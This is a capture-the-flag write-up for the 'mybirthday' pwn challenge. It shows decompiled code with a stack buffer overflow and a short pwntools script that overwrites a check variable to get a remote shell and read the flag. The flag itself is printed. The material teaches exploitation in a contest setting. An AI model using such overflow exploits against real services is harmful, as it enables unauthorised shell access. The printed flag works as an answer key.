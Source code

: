 ## mybirthday

#### Solved by nhanlun

```
Can you guess my birthday? Or you can just gimme the flag :)

nc 61.28.237.24 30200

author: pakkunandy
```

Open `mybirthday` with Ghidra:

```cpp
undefined4 main(void)
{
  undefined local_2c [24];
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0xfeefeffe;
  setup();
  puts("Tell me your birthday?");
  read(0,local_2c,30);
  if (local_14 == 0xcabbfeff) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  return 0;
}
```

We use buffer overflow to overwrite `local_14` with 0xcabbfeff to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30200)
conn.sendlineafter("?", b'a' * 24 + p32(0xcabbfeff))
conn.interactive()
ls
cat flag.txt
```

Flag: `HCMUS-CTF{Just_A_Warm_Up_Pwn}`
